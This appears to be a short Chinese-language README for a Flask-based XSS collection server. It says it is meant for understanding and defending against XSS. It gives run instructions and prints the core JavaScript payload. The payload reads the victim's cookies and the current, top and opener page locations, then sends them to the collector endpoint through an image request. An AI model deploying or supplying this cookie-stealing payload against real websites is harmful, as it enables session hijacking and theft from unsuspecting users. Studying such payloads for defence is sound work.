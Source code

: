 ##Xss服务端代码，简易实现，用于理解、分析以便防御xss攻击##


### 如何使用

1. 运行环境  
	python2.7   
	Flask  `pip install flask`    
	
2. 运行服务	`python xss.py`
3. 访问生成xss [http://127.0.0.1/g.js](http://127.0.0.1/g.js)
4. xss会主支请求[http://127.0.0.1/req](http://127.0.0.1/req)将用户浏览器当前页面的信息打印通过参数传递过来    
    location=?   
	toplocation=?   
	cookie=?   
    opener=?

### 函数
1. 主要js代码 

```javascript
(function(){
	(new Image()).src='location='+escape((function(){try{return document.location.href}catch(e){return ''}})())
	+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())
	+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())
	+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());
})()
```
